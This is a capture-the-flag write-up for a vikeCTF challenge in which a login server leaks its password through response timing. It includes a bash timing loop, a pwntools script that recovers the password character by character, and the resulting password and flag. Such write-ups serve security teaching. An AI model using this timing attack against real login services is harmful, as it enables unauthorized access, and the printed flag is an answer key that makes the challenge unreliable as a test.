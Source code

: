 # Time to Attack

**Author: [`Kyle Stang`](https://github.com/kylestang)**

**Category: `Misc Medium`**

## Description

Under the cloak of night, a band of Vikings lies in wait amidst the dense foliage bordering a serene village. They huddle in the shadows, their breaths mingling with the chilled air as they keenly observe the settlement's defenses. Torches flicker, casting eerie shadows across the wooden palisades, while the rhythmic beat of guards' footsteps reverberates in the distance. Patiently, the Vikings bide their time, awaiting the opportune moment to unleash their ferocious onslaught upon the unsuspecting village, their anticipation sharpening with each passing heartbeat.

## Organizers

Run the docker container in `src/` and give players the ip address.

## Solution

Connecting to the server, we get the following prompt:
```console
❯ nc localhost 3006
Welcome! Enter password to login:
```

After trying `password` and some other random values, it doesn't seem to do much
beyond tell us the login failed.

Let's write a quick and dirty script to check the timing of each request:
```bash
#!/bin/bash
for i in a b c d e f g h i j k l m n o p q r s t u v w x y z; do
    echo $i
    time echo $i | nc localhost 3006
done
```

Looks like most requests take under 0.1 seconds, except for d which takes 0.5s.
```
d
Welcome! Enter password to login: Login failed

real    0m0.523s
user    0m0.000s
sys     0m0.003
```

This might be a timing attack.

Let's write a python script to try each character and add the slowest request
to the password. Asynchronous requests are strongly recommended to speed up
the process. Using `solution.py`, we can find the password in about 2 minutes:

```python
from pwn import *
import time
import multiprocessing

context.log_level = "WARN"

DEFAULT_ADDR = "localhost:3006"
HOST, PORT = (os.getenv("ADDR") or DEFAULT_ADDR).split(":")

password = ""


def attempt(s: int):
    # Add tiny offsets in requests so they don't all run at once
    time.sleep(random.random() * 0.1)
    global password

    s = chr(s)
    c = connect(HOST, PORT)
    c.recvuntil(b"login:")

    guess = password.encode() + s.encode()
    start = time.time_ns()
    c.sendline(guess)
    line = c.recvline()
    end = time.time_ns()
    print(".", end="", flush=True)

    if line.decode().strip() != "Login failed":
        raise Exception(line.decode().strip())

    c.close()
    return end - start, s


# this depends on your network connection, tweak as needed
POOL_SIZE = 20

try:
    while True:
        candidates = []
        with multiprocessing.Pool(POOL_SIZE) as p:
            candidates = p.map(attempt, range(33, 126))
            candidates.sort()
            password += candidates[-1][1]
            print(password)
except Exception as e:
    print(e)
```

Using the password:
```
❯ nc localhost 3006
Welcome! Enter password to login: dxse465r78
Login succesful: vikeCTF{T1MIN6_A77@CK5_4R3_FUN}
```

## Flag

```
vikeCTF{T1MIN6_A77@CK5_4R3_FUN}
```
